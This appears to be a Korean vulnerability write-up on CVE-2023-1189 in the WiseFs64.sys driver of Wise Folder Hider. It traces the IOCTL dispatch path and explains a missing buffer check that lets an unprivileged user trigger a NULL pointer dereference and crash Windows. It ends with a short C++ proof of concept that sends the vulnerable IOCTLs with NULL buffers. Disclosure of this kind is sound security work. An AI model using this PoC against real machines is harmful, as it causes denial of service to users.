




이번에 Wise Folder Hider라는 프로그램에서 발견된 CVE-2023-1189 취약점에 대해 설명하겠다.  
해당 프로그램은 Windows에서 특정 파일이나 폴더에 암호 및 숨기기 기능을 지원한다.

취약점이 발생한 지점은 WiseFolderHider의 setup 중에 생성되는 WiseFs64.sys라는 커널 드라이버에서 발생한다.  
이 취약점은 공격자가 유저 권한에서 특정 IOCTL을 통해 NULL Pointer Dereference 유도하여 시스템을 BSOD 상태로 만드는 Denial of Service 취약점이다.


전체적인 취약점의 흐름은 위와 같다.


가장 먼저 DriverEntry 함수에서 Dispatch Table의 14 인덱스에 dispatchDeviceControl 함수를 설정한다.  
이를 통해 \\.\WiseFs로 들어오는 모든 IRP들이 dispatchDeviceControl로 전달된다.


dispatchDeviceControl 함수로 들어오게 되면 가장 먼저 컨트롤 디바이스인지 확인하여 맞다면 handleControlDeviceIoctl 함수로 들어가게 된다.


handleControlDeviceIoctl 함수에는 실제 IRP를 처리하는 로직이 들어가 있다.  
여러 IOCTL 중, 0x222400과 0x222404, 0x222410에서 Buffer의 값을 검증하는 부분이 생략되어 있다.  
따라서 Buffer가 NULL인 상태에서 위 IOCTL을 호출하면 드라이버가 Buffer에 접근하면서 NULL Pointer Dereference가 발생하고 BSOD로 이어진다.

```cpp
#include <stdio.h>
#include <Windows.h>
#include <winioctl.h>

#define SymLinkName L"\\\\.\\WiseFS"

HANDLE hDevice;

int main(int argc, char* argv[]) {
	DWORD dwWrite = 0;

	hDevice = CreateFileW(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hDevice == INVALID_HANDLE_VALUE) {
		printf("failed to CreateFile\n");
		return 1;
	}

	// case 0x222400
	// DeviceIoControl(hDevice, 0x222400, NULL, 0, NULL, 0, &dwWrite, NULL);

	// case 0x222404
	// DeviceIoControl(hDevice, 0x222404, NULL, 0, NULL, 0, &dwWrite, NULL);

	// case 0x222410
	// DeviceIoControl(hDevice, 0x222410, NULL, 0, NULL, 0, &dwWrite, NULL);
	
    CloseHandle(hDevice);
    return 0;
}
```
PoC는 위와 같다.

PoC와 취약한 파일은 <https://github.com/le0s1mba>에 올라와 있다.